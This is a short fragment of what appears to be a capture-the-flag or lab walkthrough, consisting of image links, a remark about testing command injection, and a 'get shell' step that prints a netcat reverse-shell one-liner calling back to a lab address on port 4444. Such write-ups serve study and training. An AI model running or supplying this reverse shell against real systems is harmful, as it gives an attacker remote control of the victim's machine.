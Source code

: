 test command injection.

# Exploitation



![image-20221001162609463](./images/image-20221001162609463.png)

get shell.

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.33 4444 >/tmp/f
```



![image-20221001165000389](./images/image-20221001165000389.png)
